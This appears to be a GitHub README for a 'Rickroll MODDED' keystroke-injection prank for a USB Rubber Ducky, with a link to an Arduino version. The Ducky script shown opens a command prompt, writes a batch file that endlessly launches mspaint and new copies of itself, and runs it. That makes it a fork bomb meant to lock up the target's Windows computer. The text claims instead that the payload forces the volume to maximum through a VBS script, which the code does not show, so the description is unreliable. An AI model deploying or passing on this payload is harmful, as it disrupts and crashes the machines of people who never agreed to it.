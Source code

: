 # Rickroll MODDED
This is a modification from the real "Rickroll". It does the same, but it's got a big difference: It sets the volume to the maximum continuously. What happens if someone tries to get down the volume? A vbs resets it to the maximum level. It seems funny, isn't it?
# About...
Version: 1.0

Author: BlueArduino20

# Code for Rubber Ducky
<pre><code>DELAY 3500
GUI r
DELAY 100
STRING CMD
ENTER
DELAY 100
STRING copy con F.bat
ENTER
STRING :A
ENTER
STRING start mspaint.exe && start F.bat && cls
ENTER
STRING GOTO A
ENTER
CTRL z
ENTER
DELAY 100
STRING start F.bat</pre></code>

# Code for Arduino

<a href="https://github.com/BlueArduino20/Rickroll-MODDED/blob/master/Rickroll-MODDED-for-Arduino.ino">Rickroll-MODDED-for-Arduino.ino</a>
